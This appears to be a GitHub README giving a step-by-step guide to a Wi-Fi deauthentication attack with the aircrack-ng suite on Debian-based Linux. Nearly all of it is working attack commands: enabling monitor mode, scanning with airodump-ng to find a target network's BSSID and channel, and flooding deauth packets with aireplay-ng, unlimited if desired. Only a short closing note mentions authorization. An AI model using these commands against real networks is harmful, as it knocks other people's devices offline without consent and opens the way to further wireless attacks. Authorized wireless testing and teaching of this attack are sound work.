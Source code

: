English / ![Bahasa](README-id.md)
# Deauthentication Attack using `aircrack-ng` suite on Linux

Here's a basic README for performing a deauthentication attack using `aircrack-ng` suite in Ubuntu/Debian-based system (may be identical on other system):

---

## Prerequisites

- Wireless network card that support monitor mode and packet injection (e.g., Atheros AR9565)
- `aircrack-ng` suite installed, if not
  
  ```bash
  sudo apt install aircrack-ng
  ```

## Steps

1. **Open Terminal**: Press `Ctrl + Alt + T` to open the terminal.

2. **Check Wireless Interface**: Determine the name of your wireless network interface. Use the following command:
   
    ```bash
    iwconfig
    ```
    Identify your wireless interface (e.g., wlan0, wlp3s0).

3. **Put your Wireless Interface in Monitor Mode**: Use `airmon-ng` to put your wireless interface in monitor mode. Replace `wlan0` with your wireless interface name:
   
    ```bash
    sudo airmon-ng start wlan0
    ```
    This command usually rename your interface (e.g., `wlan0mon` `wlp3s0mon`).

4. **Check Monitor Interface**: Verify that the monitor mode has been enabled by running:

   ```bash
   iwconfig
   ```
   You should see your interface listed in monitor mode (e.g., `wlan0mon` `wlp3s0mon`).

5. **Scan for Networks**: Use `airodump-ng` to scan for nearby wireless networks and find the target's BSSID (MAC address) and channel:

   ```bash
   sudo airodump-ng wlan0mon
   ```
   This will scan nearby wireless networks on all channel. Use `Ctrl+C` to stop scanning.

6. **Scan for Target Nerworks**: After knowing which channel the target are, use `--channel` and re-scan. 
   
   ```bash
   sudo airodump-ng wlan0mon --channel 1
   ```
   Replace `1` with your target's channel.

7. **Execute Deauthentication Attack**: Open a new terminal window or tab and execute the deauthentication attack using the following command:

   ```bash
   sudo aireplay-ng -0 5 -a <BSSID> wlan0mon
   ```
   Replace `<BSSID>` with the BSSID of the target network obtained from the previous step.

   `-0` flag specifies the deauthentication attack.\
   `5` represents the number of deauthentication packets to send. Adjust as needed. `0` means unlimited.

8. **Monitor Activity**: Switch back to the first terminal where `airodump-ng` is running. You should see devices disconnecting and attempting to reconnect to the target network.

9. **Exit Monitor Mode**: Once you've completed the attack, exit monitor mode using:

   ```bash
   sudo airmon-ng stop wlan0mon
   ```
   Replace `wlan0mon` with your monitor interface name if different.

## Notes
- **Caution**: Deauthentication attacks can be illegal if performed without proper authorization. Ensure you have permission before conducting such tests.
- Use responsibly and in controlled environments.
- Be mindful of the laws and regulations related to wireless network security in your area.

